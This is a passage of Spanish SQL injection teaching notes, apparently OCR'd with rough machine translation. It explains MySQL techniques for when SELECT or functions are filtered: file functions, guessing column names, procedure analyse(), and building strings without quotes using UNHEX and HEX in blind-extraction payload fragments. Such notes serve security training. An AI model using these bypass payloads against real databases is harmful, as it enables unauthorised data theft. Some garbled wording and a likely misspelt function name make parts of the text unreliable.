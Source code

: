 If **SELECT** se filtra, La explotación puede variar y realmente depende de la punto de inyecciónt.

Necesitas usar funciones que manipulan FILES como:

```bash
load_files //in mysql
```

Otra opción, fuerza bruta o adivinar los nombres de la columna mediante la adjuntación de otros **WHERE** condiciones como:

```bash
AND COLUMN IS NOT NULL ...
```

Alternativamente, poder invocar el **stored procedure analyse()**

→ http://dev.mysql.com/doc/refman/5.7/en/procedure-analyse.html

Esto **sproc** devuelve la información jugosa sobre la consulta que acaba de ejecutar:

```bash
SELECT * FROM employees procedure analyse()
```

## Bypassing Function Filters

Deshagamos ahora técnicas útiles y funciones alternativas Para usar en este tipo de escenarioss

### Building Strings

En el capítulo DBMS Gadget, discutimos cómo generar cadenas pero, usamos citas. Construir cuerdas sin comillas es un poco complicado:

```bash
- UNHEX
- HEX
- CHAR
- ASCII
- ORD
```

UNHEX es útil para traducir números hexadecimales en cuerda:

```bash
- http://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_unhex

SUBSTR(USERNAME,1,1)=UNHEX(48)
SUBSTR(USERNAME,1,2)=UNHEX(4845)
...
SUBSTR(USERNAME,1,5)=UNHEX('48454C4C4F')
SUBSTR(USERNAME,1,2)=0x48454C4C4F
```

La función HEX es útil para convertir o hexadecimal:

```bash
- http://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_hex

HEX(SUBSTR(USERNAME,1,1))=48
HEX(SUBSTR(USERNAME,1,2))=4845
...
HEX(SUBSTR(USERNAME,1,5))='48454C4C4F'
```
